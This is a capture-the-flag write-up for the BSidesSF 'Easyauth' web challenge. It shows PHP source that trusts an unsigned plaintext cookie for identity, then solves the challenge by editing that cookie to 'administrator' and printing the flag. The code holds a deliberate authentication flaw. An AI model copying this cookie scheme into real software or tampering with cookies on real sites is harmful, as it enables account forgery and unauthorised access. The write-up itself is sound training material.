 Challenge: Easyauth |
----------------------------------------
Category: Web |
----------------------------------------
30 points |
----------------------------------------

```
Description:

Can you gain admin access to this site?
http://easyauth-afee0e67.ctf.bsidessf.net

file: easyauth.php

```

``` php

<?php
  require_once('./auth.php');

  if(isset($_GET['action']) && $_GET['action'] === 'logout') {
    setcookie('auth', '');
    header('Location: index.php');
    exit(0);
  }

  if(isset($_POST['username'])) {
    # Do pagey stuff
    if(is_valid($_POST['username'], $_POST['password'])) {
      # Create the cookie
      $cookie = 'username=' . $_POST['username'] . '&';
      $cookie .= 'date=' . date(DATE_ISO8601) . '&';

      setcookie('auth', $cookie);
      print "<h1>Login successful!</h1>\n";
      print "<p>Setting cookie: <tt>auth=$cookie</tt></p>\n";
    } else {
      print "<h1>Username or password was incorrect!</h1>\n";
    }
    print "<p>Click <a href='index.php'>here</a> to continue!</p>\n";
    exit(0);
  }

  if(!isset($_COOKIE['auth'])) {
    require_once('./login_form.php');
    exit(0);
  }
  $cookie = $_COOKIE['auth'];

  $pairs = explode('&', $cookie);
  $args = array();
  foreach($pairs as $pair) {
    if(!strpos($pair, '='))
      continue;

    list($name, $value) = explode('=', $pair, 2);
    $args[$name] = $value;
  }
  $username = $args['username'];

  print "<h1>Welcome back, $username!</h1>\n";
  if($username == 'administrator') {
    print "<p>Congratulations, you're the administrator! Here's your reward:</p>\n";
    print "<p>" . FLAG . "</p>\n";
  } else {
    print "<p>It's cool that you logged in, but unfortunately we can only give the flag to 'administrator'. :(</p>\n";
  }
  print "<p><a href='/index.php?action=logout'>Log out</a></p>\n";
?>
```
We know now that we need to log in as administrator !!!
Connect to site.

<img src="./../files/site.png">

```
Hint: Try guest/guest
We connect to site with credentials guest:guest

```

<img src="./../files/guest.png">

We see the cookie appear.
I modify it with the plugin Cookie+ Manager de Firefox. Knowing that we have to be logged into administrator.


```
Host:                 easyauth-afee0e67.ctf.bsidessf.net
Name:                 auth
Path:                 /
Content:              username%3Dadministrator%26date%3D2017-02-13T08%3A35%3A43%2B0000%26
Content raw:          username%3Dadministrator%26date%3D2017-02-13T08%3A35%3A43%2B0000%26
Expires:              À la fin de la session
Expires raw:          0
Send for:             Tout type de connexion
Send for raw:         false
Created:              Monday, February 13, 2017 9:34:50 AM
Created raw:          1486974889695000
Last accessed:        Monday, February 13, 2017 9:35:29 AM
Last accessed raw:    1486974929269000
HTTP only:            No
HTTP only raw:        false
This domain only:     No
This domain only raw: false
Policy:               no information available
Policy raw:           0
Status:               no information available
Status raw:           0
---
```

Then reload the page by logging in as administrator.

<img src="./../files/admin.png">

```
FLAG:0076ecde2daae415d7e5ccc7db909e7e
```

